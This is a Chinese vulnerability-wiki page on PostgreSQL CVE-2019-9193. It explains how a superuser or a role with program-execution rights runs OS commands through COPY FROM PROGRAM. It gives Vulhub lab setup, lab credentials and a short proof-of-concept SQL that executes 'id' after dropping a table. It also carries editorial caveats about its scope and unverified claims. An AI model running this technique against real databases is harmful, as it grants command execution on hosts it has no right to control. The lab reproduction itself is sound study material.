

# PostgreSQL 高权限命令执行漏洞 CVE-2019-9193

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：超级用户或被显式授予程序执行能力的数据库角色；SQL表创建权限
- 证据范围：正文正确称高权限特性，演示为该角色预期系统命令执行能力，不能宣传普通用户权限绕过

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 应核对厂商对该 CVE 的争议/设计功能立场
- postgres/postgres 是 Vulhub 实验凭据，不是通用默认密码
- DROP TABLE IF EXISTS 可能删除既有表，示例需标明持久副作用

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

参考链接：

- https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## 环境搭建

Vulhub启动存在漏洞的环境：

```shell
docker-compose up -d
```

环境启动后，将开启Postgres默认的5432端口，默认账号密码为postgres/postgres。

## 漏洞复现

连接数据库：

```
psql --host your-ip --username postgres
```

首先连接到postgres中，并执行参考链接中的POC：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行命令id并将结果保存在cmd_exec表中：




---

> 来源：Threekiii/Awesome-POC
